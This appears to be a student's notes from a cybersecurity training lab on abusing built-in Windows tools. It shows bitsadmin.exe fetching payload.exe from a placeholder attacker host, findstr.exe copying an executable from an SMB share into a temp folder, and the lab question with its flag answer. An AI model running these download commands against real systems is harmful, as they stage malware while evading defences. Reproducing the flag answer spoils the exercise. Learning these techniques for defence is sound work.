```
Command Prompt

           
			
C:\Users\thm>bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
	    
```

/Transfer to use the transfer option
/Download we are specifying transfer using download type
/Priority we are setting the priority of the job to be running in the foreground

For more information about the bitsadmin parameters, you can visit the Microsoft documentation of the tool.

FindStr

Findstr is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output. For example, if we want to check whether port 8080 is open on our machine, then we can pipe the result of netstat to find that port as follows: netstat -an| findstr "445".


However, an unintended way was found by using findstr.exe to download remote files from SMB shared folders within the network as follows,

```
Command Prompt

           
			
C:\Users\thm>findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe

	    
```

/V to print out the lines that don't contain the string provided.

dummystring the text to be searched for; in this case, we provide a string that must not be found in a file.

 	c:\Windows\Temp\test.exe redirect the output to a file on the target machine. 

Note that other tools can be used for the file operation. We suggest visiting the LOLBAS project to check them out.

In the next task, we will introduce some of the tools used to execute files.

![[Pasted image 20220910224019.png]]


Run bitsadmin.exe to download a file of your choice onto the attached Windows VM. Once you have executed the command successfully, an encoded flag file will be created automatically on the Desktop. What is the file name?
(Make sure to supply the exact arguments in order to receive the flag as follows, bitsadmin.exe /transfer /Download /priority Foreground http://10.10.x.x/file ...)
*enc_thm_0YmFiOG_file.txt*

